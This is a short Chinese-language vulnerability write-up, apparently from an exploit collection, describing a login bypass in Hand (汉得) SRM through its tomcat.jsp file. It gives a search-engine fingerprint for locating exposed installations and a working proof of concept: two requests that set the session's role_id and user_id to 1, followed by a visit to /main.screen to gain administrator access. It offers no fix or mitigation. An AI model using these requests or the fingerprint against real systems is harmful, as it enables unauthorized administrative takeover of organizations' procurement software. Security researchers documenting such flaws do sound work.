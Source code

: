# 

# 汉得SRM tomcat.jsp 登陆绕过漏洞

## 漏洞描述

汉得SRM tomcat.jsp 文件存在登陆绕过漏洞, 攻击者通过发送请求包，可以获取后台管理员权限

## 漏洞影响

汉得SRM

## 网络测绘

```
web.body="汉得SRM"
```

## 漏洞复现

登陆页面

![image-20230828164434474](images/image-20230828164434474.png)

验证POC (Tomcat session操控)

```
/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1
```

![image-20230828164451105](images/image-20230828164451105.png)

访问跳转后台

```
/main.screen
```
